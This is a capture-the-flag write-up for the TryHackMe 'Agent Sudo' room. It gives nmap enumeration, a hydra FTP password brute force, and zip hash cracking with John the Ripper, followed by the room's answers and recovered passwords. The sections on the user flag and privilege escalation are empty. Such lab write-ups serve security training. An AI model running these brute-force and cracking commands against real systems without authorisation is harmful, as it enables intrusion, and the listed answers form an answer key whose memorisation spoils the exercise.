 ```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28433%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28422%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28391%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28394%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28384%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28380%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

![](../.gitbook/assets/image%20%28408%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules
{% endhint %}

## Task 4 Capture the user flag



## Task 5 Privilege escalation



